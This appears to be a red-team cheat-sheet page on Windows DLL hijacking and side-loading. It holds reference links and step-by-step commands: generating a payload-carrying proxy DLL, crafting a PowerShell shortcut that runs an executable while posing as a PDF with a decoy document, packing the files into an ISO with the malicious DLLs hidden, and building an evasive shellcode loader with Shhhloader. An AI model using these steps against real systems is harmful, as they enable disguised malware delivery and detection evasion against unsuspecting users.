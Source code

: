 # DLL Hijacking

- [https://hijacklibs.net/](https://hijacklibs.net/)
- [https://github.com/XForceIR/SideLoadHunter/tree/main/SideLoads](https://github.com/XForceIR/SideLoadHunter/tree/main/SideLoads)
- [https://dec0ne.github.io/research/2021-04-26-DLL-Proxying-pt1/](https://dec0ne.github.io/research/2021-04-26-DLL-Proxying-pt1/)
- [https://blog.cyble.com/2022/07/27/targeted-attacks-being-carried-out-via-dll-sideloading/](https://blog.cyble.com/2022/07/27/targeted-attacks-being-carried-out-via-dll-sideloading/)
- [https://besteffortteam.it/onedrive-and-teams-dll-hijacking/](https://besteffortteam.it/onedrive-and-teams-dll-hijacking/)
- [https://www.binarydefense.com/resources/blog/demystifying-dll-hijacking-understanding-the-intricate-world-of-dynamic-link-library-attacks/](https://www.binarydefense.com/resources/blog/demystifying-dll-hijacking-understanding-the-intricate-world-of-dynamic-link-library-attacks/)

{% embed url="https://youtu.be/3eROsG_WNpE" %}




## DLL Side-Loading with ISO Packing

- [https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/](https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/)
- [https://blog.sunggwanchoi.com/recreating-an-iso-payload-for-fun-and-no-profit/](https://blog.sunggwanchoi.com/recreating-an-iso-payload-for-fun-and-no-profit/)
- [https://github.com/ChoiSG/OneDriveUpdaterSideloading](https://github.com/ChoiSG/OneDriveUpdaterSideloading)

Generate a proxy DLL with [SharpDLLProxy](https://github.com/Flangvik/SharpDllProxy):

```
Cmd > SharpDllProxy.exe --dll C:\Windows\System32\version.dll --payload OneDrive.Update
Cmd > move output_version\tmp1F94.dll C:\out\vresion.dll
```

Create a malicious link (also [here](https://gist.github.com/mttaggart/eb2ba020b8816cfe3da4cfd835240b7d)):

```powershell
$obj = New-object -ComObject wscript.shell
$link = $obj.createshortcut("C:\Tools\PackMyPayload\out\clickme.lnk")
$link.windowstyle = "7"
$link.targetpath = "%windir%/system32/cmd.exe"
$link.iconlocation = "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13" # PDF ico
$link.arguments = "/c start update.exe & ""%ProgramFiles(x86)%/Microsoft/Edge/Application/msedge.exe"" %cd%/fake.pdf"
$link.save()
```

Pack all the files into an ISO with [PackMyPayload](https://github.com/mgeeky/PackMyPayload):

```
PS > python .\PackMyPayload.py .\out\ .\out\a.iso --out-format iso --hide OneDriveStandaloneUpdater.exe,vresion.dll,version.dll,fake.pdf
```




## Unlock DllMain

- [https://elliotonsecurity.com/perfect-dll-hijacking/](https://elliotonsecurity.com/perfect-dll-hijacking/)
- [https://github.com/ElliotKillick/LdrLockLiberator](https://github.com/ElliotKillick/LdrLockLiberator)
- [https://elliotonsecurity.com/what-is-loader-lock/](https://elliotonsecurity.com/what-is-loader-lock/)




## Tools

- [https://github.com/monoxgas/Koppeling](https://github.com/monoxgas/Koppeling)
- [https://github.com/Flangvik/SharpDllProxy](https://github.com/Flangvik/SharpDllProxy)
- [https://github.com/tothi/dll-hijack-by-proxying](https://github.com/tothi/dll-hijack-by-proxying)
- [https://github.com/kagasu/ProxyDllGenerator](https://github.com/kagasu/ProxyDllGenerator)



### Shhhloader

- [https://github.com/icyguider/Shhhloader](https://github.com/icyguider/Shhhloader)

```
$ ./Shhhloader.py -p RuntimeBroker.exe -d -dp vresion.dll -o version.dll -s domain -sa megacorp.local shellcode.bin
```
